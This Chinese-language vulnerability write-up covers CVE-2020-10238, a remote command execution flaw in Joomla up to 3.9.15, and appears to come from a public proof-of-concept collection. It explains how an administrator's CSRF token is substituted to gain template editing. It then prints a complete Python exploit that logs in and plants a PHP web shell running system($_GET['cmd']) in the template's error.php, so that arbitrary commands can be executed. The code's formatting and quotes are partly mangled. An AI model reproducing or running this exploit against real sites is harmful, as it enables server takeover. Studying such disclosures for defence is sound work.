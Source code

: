 ```yaml
---
title: （CVE-2020-10238）Joomla <= 3.9.15 远程命令执行漏洞
id: zhfly3000
---
```


# （CVE-2020-10238）Joomal <= 3.9.15 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

<= 3.9.15

## 三、复现过程

```
http://www.0-sec.org/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ== 
```

使用admin进行登录

![image](../img/cb4f244589d927b0859eb04b5c8b8510.png)

### 思路：

*   首先超级管理员跟管理员的后台界面是不同的
*   将恶意代码添加到index.php里面
*   使用管理员账户修改index.php，通过超级管理员进行index.php的文件编辑来获取到返回请求。

![image](../img/d13214c93d952894046230f30d45163a.png)

> 为了方便阅读，这里我们删掉index.php的内容，只保留shell

![image](../img/4eaac199b26528993fa98ee677daab86.png)

> 黄色部分为超级管理员的token，Joomal通过此令牌来防止csrf

这里我们先在burp里面保存此请求，先试用管理员账户进行登录，获取一下管理员账户的token。

![image](../img/718f97ebc0f6a8e3c813ab36e6048b16.png)

![image](../img/f830048f048acb0047b603c7a5404987.png)

> 如上图黄色部分为管理员的token，我们用管理员的token替换超级管理员的token，并且编辑url

![image](../img/d4a056c63fe2bcf360c85c956a59a253.png)

![image](../img/cfb5a335b059125b800ae08786c159cf.png)

![image](../img/159963ac729db38fc6f4451143b4613a.png)

### poc

![image](../img/dcba14912a9104f55374d982e540b03a.png)

```
#!/usr/bin/python
import sys
import requests
import re
import argparse

def extract_token(resp):

match = re.search(r’name="([a-f0-9]{32})" value=“1”’, resp.text, re.S)

if match is None:

print("[-] Cannot find CSRF token!\n") + “[-] You are not admin account!”

return None

return match.group(1)

def try_admin_login(sess,url,uname,upass):

admin_url = url+’/administrator/index.php’

print(’[+] Getting token for admin login’)

resp = sess.get(admin_url, verify=True)

token = extract_token(resp)

# print token

if not token:

return False

print(’[+] Logging in to admin’)

data = {

‘username’: uname,

‘passwd’: upass,

‘task’: ‘login’,

token: ‘1’

}

resp = sess.post(admin_url, data=data, verify=True)

if ‘task=profile.edit’ not in resp.text:

print(’[!] Admin Login Failure!’)

return None

print(’[+] Admin Login Successfully!’)

return True

def rce(sess,url,cmd):

getjs = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=L2Vycm9yLnBocA%3D%3D’

resp = sess.get(getjs, verify=True)

token = extract_token(resp)

if (token==None) : sys.exit()

filename=‘error.php’

shlink = url + ‘/administrator/index.php?option=com_templates&view=template&id=506&file=506&file=L2Vycm9yLnBocA%3D%3D’

shdata_up = {

‘jform[source]’: “<?php echo ‘Hacked by HK\n’ ;system($_GET[‘cmd’]); ?>”,

‘task’: ‘template.apply’,

token: ‘1’,

‘jform[extension_id]’: ‘506’,

‘jform[filename]’: ‘/’ + filename

}

shreq = sess.post(shlink, data=shdata_up)

path2shell = ‘/templates/protostar/error.php?cmd=’+cmd

# print '[+] Shell is ready to use: ’ + str(path2shell)

print ‘[+] Checking:’

shreq = sess.get(url + path2shell)

shresp = shreq.text

print shresp + ‘[+] Shell link: \n’ + (url + path2shell)

print ‘[+] Module finished.’

def main() :

```
# Construct the argument parser
ap = argparse.ArgumentParser()
# Add the arguments to the parser
ap.add_argument("-url", "--url", required=True,
				help=" URL for your Joomla target")
ap.add_argument("-u", "--username", required=True,
				help="username")
ap.add_argument("-p", "--password", required=True,
				help="password")
ap.add_argument("-cmd", "--command", default="whoami",
				help="command")
args = vars(ap.parse_args())
# target
url = format(str(args['url']))
print '[+] Your target: ' + url
# username
uname = format(str(args['username']))
# password
upass = format(str(args['password']))
# command
command = format(str(args['command']))

sess = requests.Session()
if(try_admin_login(sess,url,uname,upass) == None) : sys.exit()
rce(sess,url,command) 
``` `if **name** == “**main**”:

sys.exit(main())` 
```

## 参考链接

> https://github.com/HoangKien1020/CVE-2020-10238/tree/master/CVE-2020-10238